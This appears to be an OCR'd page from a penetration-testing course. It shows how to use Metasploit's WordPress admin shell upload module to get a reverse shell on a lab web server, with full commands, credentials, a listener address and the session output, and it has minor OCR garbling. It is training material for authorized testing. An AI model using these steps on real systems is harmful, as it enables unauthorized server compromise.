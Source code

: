 ﻿## Automating WordPress Exploitation

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start`MSF` by issuing the following command:

#### Starting Metasploit Framework


```shell-session
smoothment@htb[/htb]$ msfconsole
```

---

To obtain the reverse shell, we can use the`wp_admin_shell_upload` module. We can easily search for it inside`MSF`:

#### MSF Search

```shell-session
msf5 > search wp_admin

Matching Modules
================

# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/webapp/wp_admin_shell_upload 2015-02-21 excellent Yes WordPress Admin Shell Upload
```

The number`0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

#### Module Selection


```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

---

#### Module Options

Each module offers different settings options that we can use to assign precise specifications to`MSF` to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes The WordPress password to authenticate with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes The base path to the wordpress application
USERNAME yes The WordPress username to authenticate with
VHOST no HTTP server virtual host


Exploit target:

Id Name
-- ----
0 WordPress
```

---

## Exploitation

After using the`set` command to make the necessary modifications, we can use the`run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp”content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www”data (33)
```

